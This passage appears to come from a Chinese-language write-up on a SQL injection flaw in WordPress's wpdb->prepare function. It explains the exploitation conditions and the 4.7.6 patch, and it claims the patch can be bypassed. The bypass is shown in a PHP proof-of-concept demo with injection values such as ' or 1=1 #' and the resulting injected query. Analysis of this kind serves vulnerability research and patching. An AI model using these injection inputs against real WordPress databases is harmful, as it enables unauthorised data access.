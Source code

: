 格式字符%后面会吃掉一个`\`即`%1$\`被替换为空，逃逸出来一个单引号，造成注入.


### 总结

漏洞利用条件

1. sql语句进行了字符拼接
2. 拼接语句和原sql语句都用了vsprintf/sprintf 函数来格式化字符串






### 官方补丁

在wordpress4.7.6的修复中是这样的，prepare函数;

```php
$query = str_replace( "'%s'", '%s', $query ); // in case someone mistakenly already singlequoted it
$query = str_replace( '"%s"', '%s', $query ); // doublequote unquoting
$query = preg_replace( '|(?<!%)%f|' , '%F', $query ); // Force floats to be locale unaware
$query = preg_replace( '|(?<!%)%s|', "'%s'", $query ); // quote the strings, avoiding escaped strings like %%s
$query = preg_replace( '/%(?:%|$|([^dsF]))/', '%%\\1', $query ); // escape any unescaped percents 
array_walk( $args, array( $this, 'escape_by_ref' ) );
return @vsprintf( $query, $args );
```

只是多了一行：`$query = preg_replace( '/%(?:%|$|([^dsF]))/', '%%\\1', $query );`  

这个正则的意思就是只允许 %后面出现dsF 这三种字符类型， 其他字符类型都替换为`%%\\1`,  而且还禁止了`%`, `$` 这种参数定位， 基本meta_value 参数是完全过滤掉了

然而补丁是可以被绕过的, 补丁的思路是正确的， 然而官方只是修复了格式化字类型没有检测的错误，用白名单对字符类型进行过滤， 却并没有修复prepare两次格式化字符串的漏洞，导致补丁可以进一步被绕过，  如下demo:

```php
function prepare($query,$args){
	$query = str_replace( "'%s'", '%s', $query );
	$query = preg_replace( '|(?<!%)%s|', "'%s'", $query );
	$query = preg_replace( '/%(?:%|$|([^dsF]))/', '%%\\1', $query );
	// preg_match('/%(?:%|$|([^dsF]))/',$query,$matchs);
	// var_dump($matchs);
	$query = vsprintf($query, $args);
	return $query;
}

$meta_value = ' %s ';
$query = " and meta_value= %s ";
$query = prepare($query,$meta_value);
echo $query;

$meta_key = ['dump',' or 1=1 #'];
$sql = "select * from table where meta_key = %s $query";
$sql = prepare($sql,$meta_key);
echo $sql;

>>>
 and meta_value= ' %s ' 
select * from table where meta_key = 'dump'  and meta_value= ' ' or 1=1 #' '
```
